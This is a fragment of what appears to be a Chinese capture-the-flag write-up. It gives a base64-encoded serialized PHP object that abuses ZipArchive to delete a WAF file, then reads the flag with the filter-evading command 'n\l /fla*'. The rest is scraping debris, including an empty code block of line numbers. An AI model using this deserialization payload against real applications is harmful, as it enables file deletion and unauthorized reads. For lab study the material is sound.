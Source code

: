 ``

    
    
    1  
    

|

    
    
    Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086MTA6IlppcEFyY2hpdmUiOjU6e3M6Njoic3RhdHVzIjtpOjA7czo5OiJzdGF0dXNTeXMiO2k6MDtzOjg6Im51bUZpbGVzIjtpOjA7czo4OiJmaWxlbmFtZSI7czowOiIiO3M6NzoiY29tbWVudCI7czowOiIiO31zOjg6ImZpbGVuYW1lIjtzOjc6IndhZi50eHQiO3M6NzoiY29udGVudCI7aTo4O30 =  
      
  
---|---  
  
`  
`

`执行后，删除waf.txt。标志就可以使用`n\l /fla*`执行命令读取了：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10   
    11   
    12   
    13   
    14   
    15   
    16   
    17   
    18   
    19   
    20   
    21   
    22   
    23   
    24   
    25   
    26   
    27   
    28   
    29   
    30   
    31   
    32   
    33   
    34   
    35   
    36   